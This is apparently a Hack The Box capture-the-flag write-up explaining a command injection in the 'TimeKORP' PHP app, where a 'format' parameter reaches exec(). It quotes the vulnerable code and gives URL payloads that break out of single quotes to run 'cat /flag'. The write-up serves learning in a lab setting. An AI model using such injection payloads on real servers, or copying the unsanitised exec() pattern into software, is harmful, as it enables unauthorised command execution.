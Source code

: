 # 🧠 TimeKORP Writeup
> *Hack The Box*  
> *Date Solved: 2025-05-02*  
> *Difficulty: Easy*
> *Category: Web*

## 🛠️ Tools & Techniques
    Browser
    Grep
    PHP source analysis
---

## 🔍 Initial Recon
- Accessed: `http://94.237.51.163:49486`
I accessed the challenge at `http://94.237.51.163:49486/` and was greeted by a simple page displaying the current time. Right away, I noticed that the URL accepted a `format` parameter:
- Source code provided: `index.php`, `router.php`, `TimeController.php`, `TimeModel.php`, `Dockerfile`


Changing the value affected how the time was displayed, so I suspected this value was being passed directly into a time-related function.

---

## 🧠 Step 2: Vulnerability Discovery

I checked out the files provided:
- `index.php`
- `router.php`
- `TimeController.php`
- `TimeModel.php`
- `Dockerfile`

The routing system was custom-built. The controller for the root path (`/`) was `TimeController@index`, which led me to this logic:
```php
$format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
$time = new TimeModel($format);
return $router->view('index', ['time' => $time->getTime()]);
```

I then looked into TimeModel.php and found this vulnerability:
```php
$this->command = "date '+" . $format . "' 2>&1";
$time = exec($this->command);
```
$format was not sanitized, meaning our answer was a command injection.

## Exploitation
I started by testing a simple payload to read the flag:
```
?format=%25H%25M%25S;cat%20/flag
```
The output was:
```
It's 06:58:11;cat /flag.
```
So the app accepted the command — but it didn’t show the result of cat /flag. Why? After testing and re-reading the code, I realized the issue:
- The entire format string was inside single quotes '...'
- The date command just treated ;cat /flag as part of the format string

To fix it, I had to break out of the string early, then inject my own command.
Here’s what worked:
```
?format=%25H%25M%25S%27;%20cat%20/flag%20%23
```
Decoded, this becomes:
```
date '+%H%M%S'; cat /flag #'
```
This cleanly ends the date command, runs cat /flag, and comments out anything afterward. Finally, I got the flag printed directly in the browser.

🧠 What I Learned
  - Even simple parameters like ?format= can lead to full command injection when passed into system calls.
  
  - PHP's exec() only returns the last line of output, which can be misleading during testing.
  
  - Escaping out of shell strings is a key technique in exploitation.
  
  - Reviewing source code is critical — it turned what could've been a guessing game into a targeted attack.
